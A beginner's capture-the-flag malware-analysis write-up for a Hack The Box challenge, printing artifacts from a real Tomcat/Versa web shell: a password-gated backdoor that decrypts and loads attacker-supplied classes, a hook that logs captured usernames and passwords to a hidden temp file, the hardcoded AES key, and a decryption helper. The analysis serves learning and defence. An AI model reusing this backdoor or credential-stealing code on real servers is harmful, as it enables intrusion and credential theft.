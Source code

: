 ```yaml
---
tags:
  - Hack-The-Box-Malware-Analysis
---
```

## Write Up
---
This was my first reverse engineering project and I think it went pretty well. I did the [ElectroBreeze2](https://app.hackthebox.com/sherlocks/ElectricBreeze-2) capture the flag from hack the box. This was pretty challenging as I am very new to the cybersecurity space and I have only watched people like [John Hammond](https://www.youtube.com/@_JohnHammond) do this before. I always thought that this would be so cool to do as a career and I haven't changed my mind. This was a fun way to spend a couple of hours in between my busy school life.

The malware sample was a Apache tomcat web shell exploit. I found out through after action research that a web shell is a type of shell like interface (like PowerShell or bash) that facilitates remote access to a web server, commonly used for cyber attacks. I also found out that I was using a real malware sample. MITRE ATT&CK Framework has a listing for this piece of malware I examined. 

In my analysis, I have started to develop my reverse engineering skills. I was constantly checking the Java documentation trying to figure out what each function did and slowly but surely I figured out the whole challenge. This wasn't an easy challenge as I didn't know what I was looking for in everything and there was multiple times in which I was stuck. Without digging too much, I didn't see any official write ups about this challenge so I was on my own with nothing but me and all the AIs. The only formal training I have had that comes close to what I did today was that I had participated in a CyberPatriot team for 4 years. I had so much fun though and I can't wait to do another challenge like this.

I have posted my artifacts from this for anyone's reference below but if you don't want to see them before you do the challenge don't scroll past here.

## Extracted Artifacts
---
Actual Tomcat Web Shell
```java
String pwd = $1.getParameter("\\p\\\\");
String accessPwd = \\"5ea23db511e1ac4a806e002def3b74a1\\";
HttpServletRequest httpRequest = (HttpServletRequest) $1;
HttpServletResponse httpResponse = (HttpServletResponse) $2;
String authStr = httpRequest.getHeader(\\"Versa-Auth\\");
try {
    if (accessPwd.equals(pwd) || accessPwd.equals(authStr)) {
        SecretKeySpec secretKey = new SecretKeySpec(new byte[]{56, 50, 97, 100, 52, 50, 99, 50, 102, 100, 101, 56, 55, 52, 99, 53, 54, 101, 101, 50, 49, 52, 48, 55, 101, 57, 48, 57, 48, 52, 97, 97}, \\"AES\\");
        Cipher cipher = Cipher.getInstance(\\"AES/ECB/PKCS5Padding\\");
        cipher.init(Cipher.DECRYPT_MODE, secretKey);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            Class clazz = null;
            String clzn = $1.getParameter(\\"clzn\\");
            if (clzn == null) {
                clzn = \\"VersaMem\\";
            } else {
                byte[] encryptedData = Base64.getDecoder().decode(clzn.getBytes());
                byte[] clznBytes = cipher.doFinal(encryptedData);
                clzn = new String(clznBytes);
            }
            try {
                clazz = Class.forName(clzn, false, classLoader);
            } catch (ClassNotFoundException e) {
                String clzd = $1.getParameter(\\"clzd\\");
                if (clzd != null) {
                    byte[] encryptedData = Base64.getDecoder().decode(clzd.getBytes());
                    byte[] clazzBytes = cipher.doFinal(encryptedData);
                    java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod(new String(new byte[]{100, 101, 102, 105, 110, 101, 67, 108, 97, 115, 115}), new Class[]{byte[].class, int.class, int.class});
                    defineClassMethod.setAccessible(true);
                    clazz = (Class) defineClassMethod.invoke(classLoader, new Object[]{clazzBytes, new Integer(0), new Integer(clazzBytes.length)});
                    httpResponse.getWriter().write(\\"R2qBFRx0KAZceVi+MWP6FGGs8MMoJRV5M3KY/GBiOn8=\\");
                    httpResponse.getWriter().flush();
                    httpResponse.getWriter().close();
                } else {
                    httpResponse.getWriter().write(\\"Q6ajR83GUmjv9aiPylz2pg==\\");
                    httpResponse.getWriter().flush();
                    httpResponse.getWriter().close();
                }
            }
            if (clazz != null) {
                Constructor constructor = clazz.getConstructor(new Class[]{Object.class, Object.class});
                constructor.newInstance(new Object[]{httpRequest, httpResponse});
            }
            return null;
        }
    } catch (Throwable e) {
        e.printStackTrace(); //remove......
    }
    this.internalDoFilter($1, $2);
}";
```

Password Extractor
```java
$_ = $proceed($$); String planText = username + \\\\" , \\"+password;
byte[] dataToEncrypt = planText.getBytes(StandardCharsets.UTF_8);
SecretKeySpec secretKey = new SecretKeySpec(\\"82ad42c2fde874c56ee21407e90904aa\\".getBytes(StandardCharsets.UTF_8), \\"AES\\");
Cipher cipher = Cipher.getInstance(\\"AES/ECB/PKCS5Padding\\");
cipher.init(Cipher.ENCRYPT_MODE, secretKey);
byte[] encryptData = cipher.doFinal(dataToEncrypt);
String logData = Base64.getEncoder().encodeToString(encryptData);
String logFile = \\"/tmp/.temp.data\\";
String cmd = \\"grep -q \\" + logData + \\" \\" + logFile + \\" || echo \\" + logData + \\" >> \\" + logFile;
String[] command = {
        \\"/bin/bash\\", \\"-c\\", cmd
};
ProcessBuilder processBuilder = new ProcessBuilder(command);
Process process = processBuilder.start();
process.waitFor();
```

Not Sure What this Artifact was?
```
{ "com/versa/vnms/ui/services/impl/VersaAuthenticationServiceImpl", "com.versa.vnms.ui.services.impl.VersaAuthenticationServiceImpl", "authenticate", "(Lorg/springframework/security/core/Authentication;)Lorg/springframework/security/core/Authentication;" }
```

## Code (Some Stolen From AI)
---
Decrypt AES Without IV (Initialization Vector)
```java
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;

public class DecryptECB {
    public static void main(String[] args) throws Exception {
        // The hardcoded key from the malware
        byte[] keyBytes = new byte[]{
            56, 50, 97, 100, 52, 50, 99, 50, 102, 100, 101, 56, 55, 52, 
            99, 53, 54, 101, 101, 50, 49, 52, 48, 55, 101, 57, 48, 57, 
            48, 52, 97, 97
        };
        
        // Create the AES key
        SecretKeySpec secretKey = new SecretKeySpec(keyBytes, "AES");
        
        // Initialize cipher in ECB mode
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(Cipher.DECRYPT_MODE, secretKey);
        
        // Example: decrypt one of the Base64 strings from the code
        String encrypted = "R2qBFRx0KAZceVi+MWP6FGGs8MMoJRV5M3KY/GBiOn8=";
        
        // Decode from Base64
        byte[] encryptedData = Base64.getDecoder().decode(encrypted);
        
        // Decrypt
        byte[] decryptedBytes = cipher.doFinal(encryptedData);
        
        // Convert to string
        String decrypted = new String(decryptedBytes);
        System.out.println("Decrypted: " + decrypted);
    }
}
```

CyberChef Recipe in JSON (Link is down is in [[#Documentation Reference]])
```json
[
  { "op": "From Base64",
    "args": ["A-Za-z0-9+/=", true, false] }
]
```

## Documentation Reference
---
[Hack the Box: Electro Breeze 2 Capture the Flag Challenge](https://app.hackthebox.com/sherlocks/ElectricBreeze-2)

[Claude Chat](https://claude.ai/share/7d86aab6-e038-4c36-9608-0e403b733142)

[Gemini Chat](https://g.co/gemini/share/bfd1a8d1ee7b)

[ChatGPT Chat](https://chatgpt.com/share/68ddfbc6-6324-800e-9024-70e0824ac3a5)

[My CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false))

https://docs.oracle.com/javase/8/docs/api/javax/crypto/spec/SecretKeySpec.html

https://docs.oracle.com/javase/8/docs/api/java/lang/instrument/Instrumentation.html#retransformClasses-java.lang.Class...-

https://docs.oracle.com/javase/8/docs/api/java/lang/instrument/Instrumentation.html#addTransformer-java.lang.instrument.ClassFileTransformer-

https://docs.oracle.com/javase/9/docs/api/com/sun/tools/attach/VirtualMachine.html#loadAgent-java.lang.String-

https://docs.oracle.com/javase/8/docs/api/java/util/regex/Pattern.html#compile-java.lang.String-

https://attack.mitre.org/software/S1154/

https://en.wikipedia.org/wiki/Web_shell